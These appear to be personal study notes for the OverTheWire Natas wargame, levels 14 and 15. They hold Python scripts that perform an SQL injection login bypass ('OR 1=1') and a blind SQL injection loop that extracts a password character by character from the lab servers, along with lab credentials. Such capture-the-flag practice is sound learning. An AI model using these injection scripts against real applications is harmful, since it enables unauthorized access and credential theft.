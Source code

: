 
2024-07-18 20:49

Source: #overthewire #natas #web 

Tags: [[Injection]]
## Natas 14

```
import requests
username = 'natas14'
password = 'z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ'

url = 'http://natas14.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()

response = sessions.post(url,data={ "username" : 'aaam" OR 1=1 #' , "password" : "mango"},auth = (username,password))

print(response.text)
```
here on seeing the source code we see that we have a `debug` parameter that will show us the query that is made on the DB 

`#`  - comment the rest of the query 

injecting the following in the username will give the pass
```
'anything" OR 1=1 #'
```
## Natas 15

[[BlindSQL]] 

- the anything character or the wild-card character in a SQL `like` statement is `%`
- putting `BINARY` right before the field in the Select statement we'll make that field case sensitive

```
import requests
import string
characters = string.ascii_letters + "0123456789"

username = 'natas15'
password = 'SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'

url = 'http://natas15.natas.labs.overthewire.org/?debug=true'
sessions = requests.Session()
seen = list()

while (True):
    for ch in characters:
        print("trying character with password" , "".join(seen) + ch)

        response = sessions.post(url,data={ "username" : 'natas16" AND BINARY password LIKE "' + "".join(seen) + ch +'%" #'},auth = (username,password))

        content = response.text
        if "user exists" in content:
            seen.append(ch)
            break
```
### References
https://www.youtube.com/watch?v=krp0qCOAnFE&list=PL1H1sBF1VAKWM3wMCn6H5Ql6OrgIivt2V&index=12